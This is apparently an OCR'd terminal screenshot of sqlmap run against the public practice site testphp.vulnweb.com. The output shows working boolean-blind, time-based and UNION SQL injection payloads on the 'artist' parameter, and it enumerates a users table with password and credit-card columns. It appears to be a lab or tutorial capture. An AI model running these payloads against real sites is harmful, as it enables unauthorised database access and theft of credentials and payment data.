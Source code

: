 ┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns
 ___
 __H__ 
___ ___[']_____ ___ ___ {1.7.8#stable} 
|_ -| . ['] | .'| . | 
|___|_ ["]_|_|_|__,| _| 
 |_|V... |_| https://sqlmap.org 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end 
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and 
are not responsible for any misuse or damage caused by this program
[*] starting @ 04:06:04 /2024-11-02/
[04:06:05] [INFO] resuming back-end DBMS 'mysql' 
[04:06:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: artist (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: artist=1 AND 3786=3786
 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: artist=1 AND (SELECT 2060 FROM (SELECT(SLEEP(5)))tCWc)
 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: artist=-9216 UNION ALL SELECT 
CONCAT(0x716b767671,0x4e4b464b437157776f597753534c536944624d4f70486476575272696e6479797
84a426341426f75,0x7176787171),NULL,NULL-- -
---
[04:06:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[04:06:06] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column | Type |
+---------+--------------+
| name | varchar(100) |
| address | mediumtext |
| cart | varchar(100) |
| cc | varchar(100) |
| email | varchar(100) |
| pass | varchar(100) |
| phone | varchar(100) |
| uname | varchar(100) |
+---------+--------------+
[04:06:06] [INFO] fetched data logged to text files under 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'
[04:06:06] [WARNING] your sqlmap version is outdated